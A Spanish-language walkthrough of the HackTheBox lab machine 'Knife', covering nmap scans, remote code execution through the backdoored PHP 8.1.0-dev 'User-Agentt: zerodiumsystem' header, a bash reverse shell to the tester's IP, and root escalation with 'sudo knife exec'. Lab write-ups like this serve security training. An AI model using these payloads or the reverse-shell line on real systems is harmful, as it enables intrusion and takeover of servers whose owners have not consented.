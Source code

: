 Knife es una máquina linux de nivel fácil, creada por [MrKN16H7](https://app.hackthebox.eu/users/98767), en la que vamos a explotar un bug de PHP para conseguir una RCE
y ejecutar un binario como root para convertirnos en él.

![imagen](https://user-images.githubusercontent.com/71317374/131216908-df335eaa-0496-43e5-bc76-2d77ec7be9f9.png)

Según los seres vivos que hay por HackTheBox, la máquina es así:

![imagen](https://user-images.githubusercontent.com/71317374/131216886-9c9c8b8e-6fef-4467-914f-d108e367b3d5.png)

Muy CTF(y es así)

1 - [Reconocimiento inicial](#recon)

2 - [Reconocimiento profundo](#deeprecon)

3 - [Explotación](#exploit)

4 - [Escalada de privilegios y flag](#privesc)

# [Reconocimiento inicial] {#recon}

```bash
# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds
```

### Pequeña explicación de los parámetros de nmap
* -p-: Escanea todos los puertos.
* --open: Solo muestra los que están abiertos.
* --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos. 
* -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el [Three-Way Handshake](https://networksigma.com/tcp-3-way-handshake/).
* -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
* -n: Deshabilita la resolución DNS
* -v: Muestra los puertos a medida que los descubre
* -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la [función extractPorts de s4vitar](https://pastebin.com/tYpwpauW)
* -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.

# [Reconocimiento profundo] {deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

![imagen](https://user-images.githubusercontent.com/71317374/131220276-fec35a9e-4b46-4692-b37f-6d8bef6caf25.png)

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera `User-Agentt: zerodiumsystem("[comando]");` en la petición.

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header. 

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.

### Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 ### Explotación con BurpSuite
 
 Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando. 
 
 ### Conseguir una Reverse Shell
 
 Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:
 
 ```bash
 bash -c 'bash -i >& /dev/tcp/tuip/puertoEnElQueTienesNC 0>&1'
 ```
 Y la petición quedaría así:
 
 ```bash
 GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.49/443 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Yyyyyy estamos dentrooooooo :D

![imagen](https://user-images.githubusercontent.com/71317374/131221770-5691e50a-7486-48ef-819f-9549fd457f4e.png)

# Flag y Privesc {privesc}

Ahora mismo, si por cualquier cosa hiciera Ctrl+C tendría que volver a enviarme la shell, cosa que nadie quiere, así que tendremos que hacer [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/)

Vale, ahora que tenemos una consola interactiva en el sistema, podríamos ir a ver la User Flag, ubicada en /home/james/user.txt:
```bash
james@knife:~$ cat user.txt | head -c 15;echo
cf42b739b6d4f75
```

Ahora que tenemos taambién la flag, habría que centrarse en la escalada de privilegios, si hacemos `sudo -l` para ver si podemos ejecutar algún comando o binario como otro usuario, obtenemos: 
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Entonces podemos ejecutar **knife** como root, si buscamos en [gtfobins](gtfobins.github.io) sobre este binario, vemos que es capaz de correr código Ruby, y que se puede usar para escalar privilegios.

>Sudo
>
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain >privileged access.
>
>    `sudo knife exec -E 'exec "/bin/sh"'`

Así que ejecutamos ese comando y...

![imagen](https://user-images.githubusercontent.com/71317374/131222071-b59c07d1-a759-4382-9576-569e603afcfe.png)

Yasta, somos root y podríamos irnos a /root a recoger nuestro premio por conseguir el root.

Ha sido una máquina en la que no ha habido que enumerar mucho, lo cual la hace más rápida. Me ha gustado como hay que ganar acceso a la máquina y la historia detrás del bug de PHP. Si te ha gustado puedes darme una estrellita al blog :)

Y recuerda, Metasploit siempre es la solución.
